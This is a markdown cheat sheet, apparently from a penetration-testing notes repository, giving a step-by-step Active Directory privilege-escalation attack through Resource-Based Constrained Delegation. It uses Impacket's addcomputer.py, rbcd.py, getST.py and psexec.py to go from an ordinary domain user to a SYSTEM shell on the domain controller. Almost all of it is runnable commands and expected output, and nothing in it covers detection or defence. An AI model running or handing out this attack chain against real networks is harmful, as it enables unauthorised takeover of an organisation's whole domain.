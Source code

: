 ```yaml
---
title: Resource-Based Constrained Delegation (RBCD)
description: Active Directory Privilege Escalation
---
```


### Resource-Based Constrained Delegation Attack Path Using Impacket

#### 1. **Adding a Fake Computer Account**

The first step in this attack is to add a fake computer account to the domain. This is done using Impacket's `addcomputer.py` script. We will create a fake computer named `fakehost` and set a password for it.

```bash
python3 /usr/share/doc/python3-impacket/examples/addcomputer.py -dc-ip 10.0.0.1 -computer-pass fakepass123 -computer-name fakehost dc.local/username:password123
```

**Explanation:**
- `-dc-ip 10.0.0.1`: IP address of the Domain Controller (DC).
- `-computer-pass fakepass123`: Set the password for the fake computer account.
- `-computer-name fakehost`: The name of the fake computer.
- `dc.local/username:password123`: Credentials for a valid domain user.

**Output:**
```bash
[*] Successfully added machine account fakehost$ with password fakepass123.
```

#### 2. **Set RBCD Permissions on the Fake Computer**

Next, we use Impacket's `rbcd.py` to grant delegation rights to `fakehost$`, allowing it to impersonate users on the DC (`dc$`).

```bash
python3 /usr/share/doc/python3-impacket/examples/rbcd.py -action write -delegate-to "dc$" -delegate-from "fakehost$" -dc-ip 10.0.0.1 dc.local/username:password123
```

**Explanation:**
- `-delegate-to "dc$"`: Grant rights to impersonate users on the DC.
- `-delegate-from "fakehost$"`: The fake computer that gets impersonation rights.
- `-dc-ip 10.0.0.1`: IP of the Domain Controller.

#### 3. **Requesting a Service Ticket with S4U2Self**

Now we impersonate `administrator` using **S4U2Self** and request a service ticket for a service on the DC.

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py dc.local/fakehost$:fakepass123 -spn www/dc.dc.local -impersonate administrator
```

**Explanation:**
- `dc.local/fakehost$:fakepass123`: Fake computer credentials.
- `-spn www/dc.dc.local`: Target SPN.
- `-impersonate administrator`: The user to impersonate.

#### 4. **Export and Verify the Ticket**

```bash
export KRB5CCNAME=administrator.ccache
klist
```

**Expected Output:**
```bash
Ticket cache: FILE:administrator.ccache
Default principal: administrator@DC.LOCAL
```

#### 5. **Use the Ticket with Impacket’s PSExec**

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass dc.local/administrator@dc.dc.local -dc-ip 10.0.0.1
```

**Explanation:**
- `-k`: Use Kerberos ticket.
- `-no-pass`: No password needed.
- `dc.local/administrator@dc.dc.local`: Use impersonated user and SPN.

**Output:**
```bash
Microsoft Windows [Version ...]
C:\Windows\system32> whoami
nt authority\system
```

### Conclusion

This path demonstrates privilege escalation via **Resource-Based Constrained Delegation (RBCD)** using:

1. `addcomputer.py` to add a fake computer.
2. `rbcd.py` to give it impersonation rights.
3. `getST.py` to impersonate `administrator`.
4. `psexec.py` with Kerberos to get `SYSTEM` access.

